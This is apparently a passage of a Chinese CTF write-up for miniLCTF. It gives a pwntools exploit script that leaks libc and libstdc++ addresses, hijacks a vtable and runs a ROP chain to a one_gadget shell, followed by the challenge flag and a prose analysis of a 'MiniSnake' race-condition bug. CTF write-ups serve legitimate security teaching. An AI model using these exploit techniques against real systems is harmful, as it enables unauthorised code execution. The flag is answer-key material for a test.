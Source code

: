 ```python
backdoor(input_buf + 16)
show_info()  # leak libc

io.recvuntil(b'I am ')
libc.address = u64(io.recv(8)) - 0x274c0 - 0x2900
success(f'libc_base: 0x{libc.address:x}')

add(cyclic(16) + p64(vtable) + p64(0) + p64(cout) + p64(8) + p64(8))
backdoor(input_buf + 16)
show_info()  # leak libstdc++

io.recvuntil(b'I am ')
libstdcxx_base = u64(io.recv(8)) - 0x223370
success(f'libstdcxx_base: 0x{libstdcxx_base:x}')

# mov rbp, rax; lea r12, [rax - 1]; test rdi, rdi; je 0x113c79; mov rax, qword ptr [rdi]; call qword ptr [rax + 0x30];
magic = libstdcxx_base + 0x0000000000113764
leave = 0x0000000000402a63
pop_rax = libstdcxx_base + 0x00000000000da536
pop_rbp = libstdcxx_base + 0x00000000000aafb3
one_gadget = libc.address + 0xebd43
add(cyclic(16) + p64(input_buf + 8 + 16) + p64(magic) +
    
    p64(pop_rax) +
    p64(0) +
    p64(pop_rbp) +
    p64(0x4093a0) +
    p64(one_gadget) +
    
    p64(leave))
show_info() # 栈迁移 ROP

io.interactive()
```

Payload 有时会被空白字符截断，可能需要多次尝试。另外，类似虚函数表劫持的利用手法一般需要通过 UAF 构造重叠堆块来控制虚函数表指针。本题在删除 CTFer 时仅调用了 `std::vector#remove(...)`，由于 `ctfers` 中存储的是 `CTFer *`，`remove` 并不会调用 `CTFer` 对象的析构器也不会释放其内存。题目初版有 `delete` 也有 UAF，后简化为给一个后门函数并关闭 PIE。

```
miniLCTF{In_real_scenarios_you_need_a_UAF}
```

## MiniSnake

程序存在后门函数且没有开启 PIE。漏洞点是 `events_handler` 线程同时处理撞墙和得分，但是用于闪烁显示“GOT POINT!”的 `thrd_sleep` 会阻塞线程从而使 `events_handler` **有可能错过撞墙事件处理**。通过源码可以看出地图存储在栈上，蛇身也在显示前先写入地图中。如果开始游戏前选择“Numeric skin”则可以向栈上写入任意数值，在得分之后立即撞墙则可以穿墙越界写入。

需要**找到合适的种子**生成合适的初始蛇或食物从而写入后门函数地址。得到合适的种子很简单，只需要照着程序逻辑写一个爆破程序即可。
